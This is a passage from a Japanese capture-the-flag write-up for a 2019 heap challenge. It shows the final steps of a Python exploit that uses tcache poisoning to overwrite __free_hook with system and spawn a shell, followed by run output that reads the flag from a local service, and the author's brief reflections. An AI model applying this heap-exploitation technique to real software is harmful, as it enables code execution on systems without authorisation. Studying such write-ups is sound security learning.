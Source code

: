 ```python
delete_todo("X" * 0x10)
create_todo("Y" * 0x10)
delete_todo("Y" * 0x10)
create_todo("Z" * 0x10)
edit_todo("Z" * 0x10, p64(addr_free_hook), 0x30)
create_todo("G" * 0x30)
create_todo("W" * 0x10)
edit_todo("W" * 0x10, p64(addr_system), 0x30)

# get the shell!
create_todo("/bin/sh")
delete_todo("/bin/sh")

sock.interactive()
```

tcache poisoningが必要と気づいてからここまで一発でいけました！
やっぱり紙に書いた理論が動くと楽しいなー。
```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:4003
[ptrlib] libc base = 0x7fa8e25e1000
[ptrlib]$ ls
challenge
flag
[ptrlib]$ cat flag
hackim19{D0nt_f0r93t_t0_1ni7i4liz3}
[ptrlib]$
```

# 感想
~~だいぶヒープ慣れしてきた感じがします。~~
まだまだ手探り状態です、はい。
でもtcache poisoningはかなりできるようになってきました。
あとは使える脆弱性を見つけるまでの時間を短くしていきたい。